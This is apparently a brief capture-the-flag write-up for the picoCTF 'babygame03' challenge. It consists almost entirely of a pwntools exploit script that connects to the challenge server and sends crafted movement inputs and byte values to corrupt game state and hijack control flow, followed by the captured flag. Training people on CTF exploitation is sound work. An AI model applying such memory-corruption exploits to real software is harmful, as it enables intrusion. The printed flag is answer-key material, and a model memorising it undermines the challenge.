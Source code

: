 # babygame03

---

AUTHOR: PALASH OSWAL

Description
Break the game and get the flag.
Welcome to BabyGame 03! Navigate around the map and see what you can find! Be careful, you don't have many moves. There are obstacles that instantly end the game on collision. The game is available to download here. There is no source available, so you'll have to figure your way around the map.
Additional details will be available after launching your challenge instance.

---


this is a game challenge..........

exploit to get the flag:

```python
from pwn import *

ex = ELF('./game')
context.binary = ex

# p = process(ex.path)

p = remote("rhea.picoctf.net", 64986)
def move(c):
	p.sendlineafter(b'X', c)

def overlife():
	move(b'l' + p8(0x7f))
	for i in range(8):
		move('a')


	for i in range(4):
		move('w')

	move('s')

def round():
	overlife()


	move('p')

def jmpround(x, y):
	overlife()
	for i in range(3 + 0x4 * x):
		move('a')
	move(b'l' + p8(y))
	move('w')

for i in range(3):
	round()

jmpround(11, 0x86)


jmpround(15, 0xfe)
p.interactive()

p.interactive()
```

---

flag:```picoCTF{gamer_leveluP_334c3e00}```


